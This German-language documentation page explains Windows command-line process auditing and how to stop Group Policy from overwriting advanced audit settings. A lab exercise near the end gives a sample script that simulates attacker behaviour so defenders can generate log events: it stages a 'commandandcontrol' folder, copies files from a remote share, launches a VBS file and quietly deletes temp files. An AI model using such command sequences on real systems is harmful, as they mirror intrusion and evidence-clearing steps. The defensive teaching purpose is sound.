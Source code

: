 ![Überprüfung der Befehlszeile](media/Command-line-process-auditing/GTR_ADDS_Event4719.gif)

Das folgende Verfahren veranschaulicht, wie Sie Konflikte verhindern, indem Sie die Anwendung grundlegender Überwachungsrichtlinieneinstellungen blockieren.

### <a name="to-ensure-that-advanced-audit-policy-configuration-settings-are-not-overwritten"></a>So stellen Sie sicher, dass die Einstellungen unter „Erweiterte Überwachungsrichtlinienkonfiguration“ nicht überschrieben werden:
![Überprüfung der Befehlszeile](media/Command-line-process-auditing/GTR_ADDS_AdvAuditPolicy.gif)

1.  Öffnen Sie die Gruppenrichtlinie-Verwaltungskonsole.

2.  Klicken Sie mit der rechten Maustaste auf Standarddomänenrichtlinie, und klicken Sie dann auf Bearbeiten.

3.  Doppelklicken Sie auf Computerkonfiguration, doppelklicken Sie auf Richtlinien, und doppelklicken Sie dann auf Windows-Einstellungen.

4.  Doppelklicken Sie auf Sicherheitseinstellungen, doppelklicken Sie auf lokale Richtlinien, und klicken Sie dann auf Sicherheitsoptionen.

5.  Doppelklicken Sie auf Überwachung: Unterkategorieeinstellungen der Überwachungsrichtlinie erzwingen (Windows Vista oder höher), um Kategorieeinstellungen der Überwachungsrichtlinie außer Kraft zu setzen, und klicken Sie dann auf Diese Richtlinieneinstellung definieren.

6.  Klicken Sie auf Aktiviertund dann auf OK.

## <a name="additional-resources"></a>Weitere Ressourcen
[Prozesserstellung überwachen](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd941613(v=ws.10))

[Schritt-für-Schritt-Anleitung für die erweiterte Sicherheits Überwachungsrichtlinie](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd408940(v=ws.10))

[AppLocker: häufig gestellte Fragen](/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/ee619725(v=ws.10))

## <a name="try-this-explore-command-line-process-auditing"></a>Versuchen Sie Folgendes: Überprüfen der Befehlszeilen Prozessüberwachung

1.  **Erstellungs** Ereignisse für Überwachungsprozesse aktivieren und sicherstellen, dass die erweiterte Überwachungs Richtlinien Konfiguration nicht überschrieben wird

2.  Erstellen Sie ein Skript, mit dem einige relevante Ereignisse generiert werden, und führen Sie das Skript aus.  Beobachten Sie die Ereignisse.  Das Skript, das zum Generieren des Ereignisses in der Lektion verwendet wurde, sieht wie folgt aus:

    ```
    mkdir c:\systemfiles\temp\commandandcontrol\zone\fifthward
    copy \\192.168.1.254\c$\hidden c:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward
    start C:\systemfiles\temp\hidden\commandandcontrol\zone\fifthward\ntuserrights.vbs
    del c:\systemfiles\temp\*.* /Q
    ```

3.  Aktivieren der Überprüfung des Befehlszeilen Prozesses

4.  Führen Sie das gleiche Skript wie zuvor aus, und beobachten Sie die Ereignisse.

